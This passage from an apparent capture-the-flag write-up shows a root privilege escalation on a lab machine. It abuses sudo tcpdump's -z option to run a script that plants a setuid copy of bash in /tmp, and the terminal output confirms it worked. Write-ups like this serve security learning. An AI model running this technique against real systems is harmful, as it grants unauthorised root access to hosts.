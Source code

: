 ![](images/Pasted%20image%2020250724154408.png)
Let's exploit it step by step
```
james@strutted:~$ COMMAND='cp /bin/bash /tmp/bash && chmod +s /tmp/bash'
james@strutted:~$ TF=$(mktemp)
james@strutted:~$ echo "$COMMAND" > $TF
james@strutted:~$ chmod +x $TF
james@strutted:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -al /tmp
total 1424
drwxrwxrwt 13 root  root     4096 Jul 24 05:55 .
drwxr-xr-x 18 root  root     4096 Jan 15  2025 ..
-rwsr-sr-x  1 root  root  1396520 Jul 24 05:55 bash
drwxrwxrwt  2 root  root     4096 Jul 24 04:20 .font-unix
drwxrwxrwt  2 root  root     4096 Jul 24 04:20 .ICE-unix
drwx------  3 root  root     4096 Jul 24 04:20 systemd-private-0ec4762257284b49a7a288471d8d66cd-ModemManager.service-3Gocqn
drwx------  3 root  root     4096 Jul 24 04:20 systemd-private-0ec4762257284b49a7a288471d8d66cd-systemd-logind.service-ZGKgm2
drwx------  3 root  root     4096 Jul 24 04:20 systemd-private-0ec4762257284b49a7a288471d8d66cd-systemd-resolved.service-C5f7Jn
drwx------  3 root  root     4096 Jul 24 04:20 systemd-private-0ec4762257284b49a7a288471d8d66cd-systemd-timesyncd.service-B5201l
drwx------  3 root  root     4096 Jul 24 04:20 systemd-private-0ec4762257284b49a7a288471d8d66cd-tomcat9.service-VaHTV0
drwxrwxrwt  2 root  root     4096 Jul 24 04:20 .Test-unix
-rwx--x--x  1 james james       3 Jul 24 05:54 tmp.ouGLxhY3J4
-rwx--x--x  1 james james      45 Jul 24 05:54 tmp.scQHYSWaqg
```